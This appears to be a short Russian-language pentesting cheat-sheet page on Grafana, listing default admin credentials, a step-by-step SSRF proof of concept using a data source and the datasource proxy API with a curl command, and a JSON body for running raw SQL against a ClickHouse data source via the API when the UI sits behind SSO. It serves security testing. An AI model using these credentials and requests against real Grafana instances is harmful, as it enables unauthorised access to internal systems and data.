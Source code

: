 # Grafana

### Default Creds

`admin:admin`

`admin:prom-operator`

`admin:openbmp`

### SSRF

Присутствует возможность создать свой data source и обращаться к любому ресурсу по http/tcp, который был указан в качестве источника и получать ответ

**PoC:**

1. Развернем тестовую среду из 2 контейнеров: Grafana и Nginx.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

2. создадим data source и выберем тип Prometheus, потому что он отправляет запросы по http. В качестве источника выберем nginx

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

3. Отправим запрос к api grafana `/api/datasources`, чтобы получить id нашего data soruce

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

4. с помощью `curl -u admin:admin -s http://10.172.1.22:3000/api/datasources/proxy/4` отправим запрос на установленный ресурс и получим ответ

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Мы можем отправлять запросы от лица grafana к любым ресурсам и по любым протоколам, в зависимости от datasources, которые мы найдем



### Send requests to grafana-clickhouse-datasource via api

If Grafana's ui is behind SSO unlike api

```json
{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "grafana-clickhouse-datasource",
        "uid": "ce4qblsezmupsf"
      },
      "editorType": "sql",
      "queryType": "table",
      "rawSql": "SELECT * FROM system.databases",
      "format": 1,
      "meta": {
        "builderOptions": {
          "database": "",
          "table": "",
          "queryType": "table",
          "columns": [],
          "mode": "list",
          "limit": 1000
        },
        "timezone": "Europe/Moscow"
      },
      "pluginVersion": "4.5.0",
      "datasourceId": 8
    }
  ]
}
```
